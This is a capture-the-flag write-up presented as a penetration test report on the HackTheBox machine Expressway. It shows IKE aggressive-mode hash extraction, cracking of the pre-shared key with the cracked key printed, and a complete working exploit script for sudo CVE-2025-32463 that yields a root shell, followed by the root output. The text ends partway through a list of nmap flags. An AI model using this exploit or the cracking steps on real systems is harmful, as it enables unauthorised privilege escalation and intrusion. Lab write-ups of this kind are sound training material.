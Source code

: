 ```yaml
---
title: PENETRATION TESTING REPORT - EXPRESSWAY MACHINE
description: This write-up for the retired machine Expressway was completed while the machine was still active on the HackTheBox platform. Publication was held until after its official retirement to comply with platform guidelines.
author: ZoldyckSec
date: 2025-09-28 00:00:00 +0800
categories: [HackTheBox, Expressway]
tags: [CTF, UDP, IKE, Easy, PSK, CVE-2025-32463]
render_with_liquid: false
image:
  path: /assets/img/Expressway/Card-Express.png
---
```


## Description:

- `Date` Sep 27, 2025
- `Machine` Expressway (Linux)
- `Difficulty` Easy
- `Prepared by` Allan Espinoza(Aka.ZoldyckSec)

## EXECUTIVE SUMMARY

A security assessment was conducted against the Expressway machine, identifying critical vulnerabilities in the IPSec VPN service implementation. Complete system compromise was achieved through exploitation of an IKE/ISAKMP service configured in aggressive mode, followed by privilege escalation leveraging a sudo vulnerability (CVE-2025-32463).

#### Key Findings

- `Critical` Service in agressive mode allowing PSK brute-forcing
- `High` Weak Pre-Shared Key susceptible to dictionary attacks
- `Critical`  Multiple scripts with sudo permissions allowing privilege escalation

## 1. INTRODUCTION

#### 1.1 Scope and Objectives
The assessment focused on the Expressway machine with the objective of identifying attack vectors through non-conventional services and vulnerable IPSec VPN configurations.

#### 1.2 Methodology
A testing methodology centered on UDP enumeration and IPSec service exploitation was employed.

- Exhaustive UDP service enumeration
- IKE/ISAKMP service analysis on UDP port 500
- Offline Pre-Shared Key (PSK) brute-forcing
- Exploitation of vulnerable sudo configuration on multiple scripts

## 2. TECHNICAL METHODOLOGY

#### 2.1 Reconnaissance Phase
- `Tools` nmap, ike-scan
- `Techniques` Exhaustive UDP scanning, IKE service fingerprinting

#### 2.2 Vulnerability Analysis Phase
- `Tools` ike-scan, psk-crack, custom wordlists
- `Techniques` Aggressive mode detection, IKE hash extraction

#### 2.3 Exploitation Phase
- `Techniques` Offline PSK brute-forcing, sudo privilege abuse through multiple scripts

## 3. DETAILED FINDINGS

#### 3.1 Critical Finding 001: IKE/ISAKMP Service in Aggressive Mode

The IKE/ISAKMP service on UDP port 500 is configured in aggressive mode, allowing hash extraction for offline brute-force attacks.

#### Evidence

```bash
ike-scan -A 10.10.11.87 -P
````

```markdown
IKE PSK parameters (g_xr:g_xi:cky_r:cky_i:sai_b:idir_b:ni_b:nr_b:hash_r):
954d1bf7f7949d6216d26034fdededd2dfa91a603a4f2dba9e0a85e1fdce764ba7a868fc85a258472e6c91c905d21b180ca24a93886f0141712fe45862f2d8f54134741c0d2834355421f1d6b845fc58dbee643c0f6c6830a1f095b61c1fcc78e4db59e552db8e763d60f4fe624e24b35f770db5d5120af859985727395e1392:53bec0cd48ec92f2fe60df3751c080f8b6b92b45336312cd6d3c133bf2a5e93d10a30e9c444bd22249e8411d0ce7c3b6d22dbdbb2b0778fd68728aad84adb6dc2ab591fa105ccdcfd512637b76b9a052e0ed24565ce7bc3ba2c368a8b499a2ef4fd8212940256a1bce47db3a621bf582c592eaeb7a37ba519c6666b5a43c29d1:f77714c7d8fd7ed4:305b0ddf6f47d41c:00000001000000010000009801010004030000240101000080010005800200028003000180040002800b0001000c000400007080030000240201000080010005800200018003000180040002800b0001000c000400007080030000240301000080010001800200028003000180040002800b0001000c000400007080000000240401000080010001800200018003000180040002800b0001000c000400007080:03000000696b6540657870726573737761792e687462:679e4a6ac6afed51e8ec22d9f598937227a553ee:692fe7379ce6731b5a5659a3fd0a8ca8d50f05b88f936b5933fd7f8733df1bfd:ffe04d53c6ea615b98594efb211e3caed831a9e2
```

#### 3.2 High Finding 002: Weak Pre-Shared Key

An IKE hash was extracted from the aggressive mode service and successfully cracked via dictionary attack, revealing a weak PSK.

#### Evidence

```bash
psk-crack -d /usr/share/wordlists/rockyou.txt hash
```

```markdown
Running in dictionary cracking mode
key "freakingrockstarontheroad" matches SHA1 hash 54d97619cb37951c5be413903e6d6d2a78be31a7
```
#### 3.3 Critical Finding 003

Vulnerability CVE-2025-32463 was identified and exploited in the sudo configuration, which allowed full escalation of privileges without requiring prior enumeration of sudo permissions.

#### Evidence 

- `kh4sh3i/CVE-2025-32463`

```bash
#!/bin/bash
# sudo-chwoot.sh
# CVE-2025-32463 – Sudo EoP Exploit PoC by Rich Mirch
#                  @ Stratascale Cyber Research Unit (CRU)
STAGE=$(mktemp -d /tmp/sudowoot.stage.XXXXXX)
cd ${STAGE?} || exit 1

cat > woot1337.c<<EOF
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void woot(void) {
  setreuid(0,0);
  setregid(0,0);
  chdir("/");
  execl("/bin/bash", "/bin/bash", NULL);
}
EOF

mkdir -p woot/etc libnss_
echo "passwd: /woot1337" > woot/etc/nsswitch.conf
cp /etc/group woot/etc
gcc -shared -fPIC -Wl,-init,woot -o libnss_/woot1337.so.2 woot1337.c

echo "woot!"
sudo -R woot woot
rm -rf ${STAGE?}
````

```markdown
ike@expressway:~$ ./exploit.sh 
woot!
root@expressway:/# id
uid=0(root) gid=0(root) groups=0(root),13(proxy),1001(ike)
root@expressway:/# whoami
root
```

## 4. EXPLOITATION AND POST-EXPLOITATION

#### 4.1 Initial Compromise

```bash
nmap -sU --top-ports 100 -T4 -v -n --reason -oN UDP 10.10.11.87
```
- `-sU` **UDP Scan**. Sends UDP probes to ports and waits for either a response or an ICMP "port unreachable" message. UDP lacks a handshake, which is why it's typically slower and less accurate than TCP.

- `--top-ports` Scans **the top 100 most common UDP ports** according to the Nmap database (instead of 1-65535). Good for quick reconnaissance, but may miss services on non-standard ports.

- `-T4` **Timing Template**: Aggressive/Fast. Reduces timeouts and waits less for responses → faster scan but higher risk of **false negatives** and more network noise (detectable by IDS/IPS). Often reasonable for UDP, but if a firewall delays responses, prefer `-T3` or `-T4` with retries.

- `-v` **Verbosity**: More detailed console output. Shows progress and useful information. (You can use `-vv`/`-vvv` for more detail, but `-v` is usually sufficient.)

- `-n` **No DNS resolution**. Nmap will not attempt to resolve IP → hostname (faster, less DNS traffic).

- `--reason` Shows **why** Nmap classified a port (e.g., "ICMP port unreachable" → closed; "no response" → open|filtered). Very useful for interpreting UDP results.





  
